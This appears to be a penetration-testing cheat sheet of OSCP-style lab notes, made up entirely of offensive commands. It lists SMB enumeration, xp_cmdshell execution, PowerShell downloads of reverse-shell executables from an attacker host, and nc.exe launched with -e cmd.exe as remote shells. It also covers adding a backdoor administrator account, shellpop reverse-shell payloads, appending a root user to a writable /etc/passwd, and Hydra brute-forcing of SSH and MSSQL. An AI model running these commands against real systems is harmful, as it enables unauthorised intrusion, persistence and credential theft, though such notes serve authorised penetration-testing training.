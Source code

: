 #### SMB commands
smbmap -H 10.11.1.x -u null -p ""   
smbmap -H 10.11.1.x -u null -p "" -R    
smbclient \\\\\\\10.11.1.x\\\\'Bob Share' ""    

#### SMB file transfer
python /git/tools/impacket/examples/smbserver.py myshare /usr/share/priv/windows/   
net view \\\\10.11.0.x    
copy \\\\10.11.0.x\\shell.php    

#### xp_cmdshell
nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=sa,mssql.password=poiuytrewq,ms-sql-xp-cmdshell.cmd="net user" 10.11.1.x

#### transfer files
powershell -c (Invoke-WebRequest -Uri 'http://10.11.0.x/rev.exe' -OutFile 'C:\Users\Public\rev.exe')    
powershell -c (new-object System.Net.WebClient).DownloadFile('http://10.11.0.x/shell.exe','C:\Users\Public\shell.exe')   

#### execute cmd as another user 
psexec.exe -u alice -p some-pass "c:\Users\Public\nc.exe" 10.11.0.x 443 -e cmd.exe

#### execute nc as another user
$passwd = ConvertTo-SecureString "some-pass" -AsPlainText -Force   
$mycreds = New-Object System.Management.Automation.PSCredential ("alice", $passwd)    
$computer = "bethany"    
[System.Diagnostics.Process]::Start("C:\Users\Public\nc.exe"," -nvv 10.11.0.x 8082 -e cmd.exe",    
$mycreds.Username, $mycreds.Password, $computer)   

#### add windows admin user
net user sl0wly sl0wly /add   
net localgroup administrators sl0wly /add    

#### shellpop
shellpop --list 

#### shellpop reverse tcp
shellpop --payload linux/reverse/tcp/bash --host tap0 --port 443 --base64      
shellpop --payload linux/reverse/tcp/php --host tap0 --port 443     
shellpop --payload windows/reverse/tcp/powershell --host tap0 --port 443 --base64      

### Find all SUID
find / -perm -u=s -type f 2>/dev/null


#### /etc/passwd writeable
echo 'slow:aaKNIEDOaueR6:0:0:slow:/root:/bin/bash' >> /etc/passwd   
su slow   
(foo)  

#### RDP
rdesktop -u sl0wly 10.11.1.x

#### HYDRA BF
hydra -l root -P /usr/share/wordlist/rockyou.txt -T 20 10.11.1.x ssh     
hydra -s 27900 -C /usr/share/wordlist/sparta/mssql-default-userpass.txt -f 10.11.1.x mssql   

#### compling .exe on kali
i686-w64-mingw32-gcc MS11-046.c -o MS11-046.exe -lws2_32

#### TMUX 
tmux new-session -d -s alice s    
tmux send-keys -t alice "AR 10.11.1.x -o /git/oscp/labs"



